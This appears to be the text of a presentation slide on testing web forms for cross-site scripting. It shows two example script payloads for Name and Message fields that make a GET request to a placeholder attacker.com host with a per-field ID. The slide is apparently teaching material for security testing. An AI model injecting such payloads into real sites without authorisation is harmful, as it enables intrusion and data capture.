

Testing for XSS
In all fields, have a small script which GETs back to a server with a unique ID corresponding to the field it came from

Name: <script>jQuery.get('http://attacker.com/1');</script>
Message: <script>jQuery.get('http://attacker.com/2');</script>